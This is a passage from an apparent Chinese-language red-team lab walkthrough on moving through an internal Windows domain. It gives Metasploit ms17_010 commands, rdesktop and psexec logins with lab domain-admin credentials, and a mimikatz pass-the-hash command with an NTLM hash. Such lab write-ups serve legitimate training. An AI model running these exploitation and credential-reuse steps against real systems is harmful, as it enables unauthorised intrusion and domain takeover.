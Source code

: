 ##### 5.漏洞扫描

### 3、使用漏洞控制内网其他机器

#### 1.ms17_010

```
search ms17_010
use auxiliary/admin/smb/ms17_010_command
set rhosts 192.168.52.141
run
```

![image-20220322193724552](https://tva1.sinaimg.cn/large/e6c9d24egy1h0iw5s1z1sj218k0h6n0d.jpg)

#### 2.是有密码远程桌面登录

```
proxychains rdesktop 192.168.52.141 -u liukaifeng01 -p hongrisec@2019
```

#### 3.psexec攻击

内网中，最总要的还是域管理员账号，有了域管理员账号后，可以使用该域管理员账号密码利用 psexec 登录域内任何一台开启了admin$共享(该共享默认开启) 的主机。
下载地址：
pstools:https://download.sysinternals.com/files/PSTools.zip

```
psexec.exe \\10。37.129.7 -u god\administrator -p hongrisec@2019 cmd
```

这里其实已经登录成功，因为账号安全周期原因密码过期了

![在这里插入图片描述](https://tva1.sinaimg.cn/large/e6c9d24egy1h0iwowhfp1j20nq0b4t9q.jpg)

更改密码后再次登录：

#### 4.域hash传递攻击

与psexec类似，当我获取获取到域管理员密码NTLM hash值时，可借助mimikatz进行进行登录域内其他电脑：

```
sekurlsa::pth /user:administrator /domain:"god.org" /ntlm:c456c606a647ef44b646c44a227917a4
```

![在这里插入图片描述](https://tva1.sinaimg.cn/large/e6c9d24egy1h0iwpkxcykj20na0nk77f.jpg)

